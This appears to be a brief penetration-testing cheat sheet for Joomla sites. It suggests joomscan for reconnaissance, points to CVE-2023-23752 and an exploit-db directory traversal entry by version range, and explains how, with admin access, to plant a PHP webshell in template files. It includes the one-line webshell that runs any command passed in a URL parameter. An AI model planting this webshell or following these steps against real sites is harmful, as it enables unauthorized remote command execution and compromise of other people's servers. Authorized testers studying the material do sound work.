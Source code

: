 Use joomscan to gather info

[[CVE-2023-23752]] - up to 4.26

Directory Traversal
https://www.exploit-db.com/exploits/46710 - 1.5 through 3.9.4

If you get admin access you can add a php webshell to any of the .php files under 'templates':

```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```



